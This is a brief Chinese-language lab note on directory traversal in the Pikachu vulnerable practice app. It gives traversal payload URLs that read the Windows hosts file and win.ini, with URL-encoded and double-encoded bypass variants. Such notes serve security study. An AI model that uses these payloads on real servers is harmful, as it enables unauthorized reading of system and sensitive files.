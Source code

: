 ```yaml
---
layout: post
title: "Pickachu 目錄遍歷漏洞"
description: ""
date: 2023-07-11
categories:
  - Pickachu_Lab
  - Pickachu_Directory_Traversal
author: ""
tags: ['Pickachu_Lab', 'Directory_Traversal']
---
```




# Pickachu 目錄遍歷漏洞

###### tags: `Pickachu`
../ 
```
http://pika/vul/dir/dir_list.php?title==../../../../../windows/system32/drivers/etc/hosts
```


後端有時會解碼前端傳過來的資料，
`http://pika/vul/dir/dir_list.php?title=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fWINDOWS\win.ini`





有時資料不只被解碼一次，可用double encode 
```
http://pika/vul/dir/dir_list.php?title=%252e%252e%252f123.txt
```



還有很多繞過方式